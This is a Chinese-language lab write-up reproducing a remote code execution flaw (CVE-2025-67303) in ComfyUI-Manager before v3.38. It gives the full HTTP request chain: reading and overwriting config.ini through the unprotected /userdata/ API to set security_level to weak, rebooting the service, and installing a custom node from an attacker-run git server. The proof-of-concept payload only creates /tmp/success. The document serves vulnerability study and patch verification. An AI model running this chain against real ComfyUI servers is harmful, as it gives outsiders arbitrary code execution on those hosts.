




# ComfyUI-Manager 远程代码执行漏洞（CVE-2025-67303）

ComfyUI 是一款基于节点式工作流的 Stable Diffusion 专业图形界面，是开源 AI 绘画领域的核心项目之一。ComfyUI-Manager 是 ComfyUI 的官方扩展管理器，负责管理自定义节点、模型和更新的安装。

在 v3.38 版本之前，ComfyUI-Manager 的数据与配置目录存储在 `user/default/ComfyUI-Manager/` 下，该目录通过 ComfyUI 的 `/userdata/` Web API 暴露，没有任何访问限制。攻击者可以通过该 API 直接读取和覆写 `config.ini` 文件，将 `security_level` 设置为 `weak` 以禁用安全限制。结合 `/api/manager/reboot` 接口重启服务和 `/customnode/install/git_url` 接口安装恶意自定义节点，攻击者可以在服务器上实现远程代码执行。该漏洞已在 ComfyUI-Manager v3.38 版本中通过引入"系统用户保护 API"得到修复，所有配置数据被迁移至受保护的 `__manager` 目录，该目录无法通过 `/userdata/` API 访问。

参考链接：

- <https://mp.weixin.qq.com/s/I1_2E9OyxySwWy0KqQdJXg>

## 环境搭建

执行如下命令启动 ComfyUI-Manager 3.37 漏洞环境：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8188` 即可看到 ComfyUI 的界面。

## 漏洞复现

默认情况下，`/customnode/install/git_url` 接口受安全限制保护。直接尝试安装自定义节点会返回 403 Forbidden 响应：



由于 ComfyUI-Manager 将配置存储在未受保护的 `user/default/` 目录下，攻击者可以通过 ComfyUI 的 `/userdata/` API 直接读取当前的 `config.ini`（注意路径中的斜杠需要 URL 编码为 `%2F`）：

```
GET /userdata/ComfyUI-Manager%2Fconfig.ini HTTP/1.1
Host: your-ip:8188
```



响应中包含完整的配置文件内容。为了绕过安全限制，将获取到的内容中 `security_level` 的值从 `normal` 修改为 `weak`，然后通过 POST 请求将完整的修改后内容覆写回去：

```
POST /userdata/ComfyUI-Manager%2Fconfig.ini HTTP/1.1
Host: your-ip:8188
Content-Type: application/octet-stream

[default]
preview_method = none
git_exe =
use_uv = True
channel_url = https://raw.githubusercontent.com/ltdrdata/ComfyUI-Manager/main
share_option = all
bypass_ssl = False
file_logging = True
component_policy = workflow
update_policy = stable-comfyui
windows_selector_event_loop_policy = False
model_download_by_agent = False
downgrade_blacklist =
security_level = weak
always_lazy_install = False
network_mode = public
db_mode = cache
```

接着，向 `/api/manager/reboot` 接口发送请求来重启 ComfyUI 服务，使新配置生效。服务器重启后（等待几秒钟让服务完全启动），在宿主机上运行 [evil-git-server.py](evil-git-server.py) 脚本，启动一个本地 Git HTTP 服务器来托管恶意自定义节点：

```bash
python evil-git-server.py
```

脚本会输出带有随机后缀的恶意仓库 URL（例如 `http://your-ip:9999/evil-node-abc123`）。向 `/customnode/install/git_url` 接口发送 POST 请求，从本地 Git 服务器安装恶意自定义节点。将 `your-ip` 替换为 Docker 容器可访问的宿主机 IP 地址，并使用 PoC 脚本输出的仓库 URL：

```
POST /customnode/install/git_url HTTP/1.1
Host: your-ip:8188
Content-Type: text/plain

http://your-ip:9999/evil-node-abc123
```



恶意 Git 服务器会收到来自 ComfyUI 服务器的多个请求，用于克隆恶意仓库：


恶意代码会在安装过程中立即执行。可以通过检查容器内是否存在 `/tmp/success` 文件来验证命令已被执行：

```bash
docker compose exec web ls -al /tmp/
```



恶意自定义节点的 `install.py` 文件包含以下代码，这些代码会在安装过程中被执行：

```python
import subprocess
subprocess.run(["touch", "/tmp/success"])
```

在实际攻击场景中，攻击者会将恶意自定义节点托管在公开的 Git 仓库中，利用此漏洞链在无需用户交互的情况下远程安装恶意节点。
